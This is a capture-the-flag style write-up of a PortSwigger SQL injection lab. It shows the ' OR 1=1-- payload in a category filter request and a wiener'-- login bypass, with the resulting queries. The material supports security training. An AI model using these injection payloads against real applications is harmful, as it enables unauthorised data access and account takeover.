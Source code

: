 ```yaml
---
description: WHERE clause allowing retrieval of hidden data
---
```


# 1e1 - SQL injection vulnerability allowing retrieval of hidden data \[PortSwigger Lab]

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

### Solution:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption><p>web interface</p></figcaption></figure>

So taking this application into BurpSuite and selecting a category "Pets" gives me the following request

`GET /filter?category=Pets HTTP/2`

So what should I inject here to cause the following SQL query to malfunction?

`SELECT * FROM products WHERE category = 'Pets' AND released = 1`

So basically, modifying the original `GET /filter?category=Pets HTTP/2` to `GET /filter?category=Pets'+OR+1=1--' HTTP/2` causes to perform the following SQL query

`SELECT * FROM products WHERE category = 'Pets' OR 1=1-- AND released = 1`

meaning that everything will be displayed since `1=1` is TRUE and after that everything is ignored.

***

Imagine another scenario where an application lets user submit their credentials `wiener:peter`. SQL query might look like this

`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`

if the query returns the details the login was seccessful. otherwise, it rejected.

an attacker might be able to login as any user without the need for a password. this can be done using `--` sequence in `WHERE` clause where password is checked. for example submitting the username `wiener'--` would produce the following SQL query

`SELECT * FROM users WHERE username = 'wiener'--' AND password = ''`

successfully logging in a user.
